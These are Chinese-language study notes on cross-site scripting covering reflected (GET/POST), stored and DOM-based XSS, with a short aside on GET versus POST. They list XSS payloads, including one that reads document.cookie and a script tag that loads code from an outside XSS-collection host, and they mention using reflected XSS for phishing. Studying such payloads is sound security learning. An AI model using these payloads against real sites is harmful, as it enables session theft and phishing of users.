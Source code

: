 

## 1、反射型XSS

### get

Get 发包。改参数就行。



这里复习一下GET和POST的区别：

GET 是user拿着数据A问server要数据B。发送时数据A在url里包含，有暴露风险。

POST 是user向server给数据A，server收到数据A后再判断给不给数据B。发生数据时有body以及相应表单。

从原理上看似乎POST比GET安全很多，但事实上，两种方式在HTTP下都有相同程度的安全隐患，即劫持后包后内由于里边都是明文，信息直接裸奔。

而应用HTTPS会让这两种方式更安全，毕竟加入了TLS/SSL以及相应加密。



### post

同上，只不过是 POST发包



payload：<script>alert(1)</script>

payload：<script>alert(document.cookie)</script>

payload:<script src=http://xss.fbisb.com/ij7V></script>

有时会用到：<img src=a onerror="alert(1)"/>

两种方式由于脚本存不到服务器内，所以多用于钓鱼。

## 2、存储型XSS

存储型xss是保存在数据库里的，如果用户刷新，留言列表会从数据库提取出xss数据弹框，存的好会一直弹出来，越弹越多







## 3、DOM型XSS

### 普通DOM型

造成DOM型XSS的原因是前端的输入被DOM给获取到了，通过DOM又在前端输出，跟反射型和存储型比起来，它是不经过后台交互的

文档对象模型 (DOM) 是 HTML 和 XML 文档的编程接口。它提供了对文档的结构化的表述，并定义了一种方式可以使从程序中对该结构进行访问，从而改变文档的结构，样式和内容。DOM 将文档解析为一个由节点和对象（包含属性和方法的对象）组成的结构集合。简言之，它会将 web 页面和脚本或程序语言连接起来。

一个 web 页面是一个文档。这个文档可以在浏览器窗口或作为 HTML 源码显示出来。但上述两个情况中都是同一份文档。文档对象模型（DOM）提供了对同一份文档的另一种表现，存储和操作的方式。 DOM 是 web 页面的完全的面向对象表述，它能够使用如 JavaScript 等脚本语言进行修改。


